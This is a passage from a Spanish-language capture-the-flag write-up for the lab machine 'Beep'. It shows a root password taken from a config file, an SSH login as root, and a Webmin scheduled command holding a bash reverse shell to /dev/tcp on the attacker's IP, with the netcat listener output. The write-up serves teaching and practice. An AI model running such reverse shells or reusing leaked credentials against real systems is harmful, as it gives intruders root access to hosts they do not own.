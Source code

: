 ### Explotación vía conexión por ssh

Probando credenciales en el panel de Webmin -las credenciales recogidas de amposta.conf- entramos con **root:jEhdIekWmdjE**. Si intentamos entrar por ssh a la máquina objetivo:

```sh
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Buscando un poco por internet parece que se soluciona así:

```sh
❯ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7

The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```
Y, por supuesto, entramos como root también.

### Vía desde dentro de Webmin

Podemos acceder creando comandos o tareas programanas desde Wwbmin. Como somos el usuario root no tendremos restricciones.  
Para ello voy a System --> Sheduled Commands (prefiero usar un comando). Lo configuro para que se ejecute dos minutos después, que lo haga el usuario root, y dispongo este comando; ` 	bash -i &> /dev/tcp/10.10.14.23/443 0<&1`.

En el tiempo establecido me llega la reverse, también como root:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.7] 49695
bash: no job control in this shell
[root@beep /]# whoami
root
```

Hemos visto 3 vías para hacernos con la caja **Beep**. Ha estado guay.




















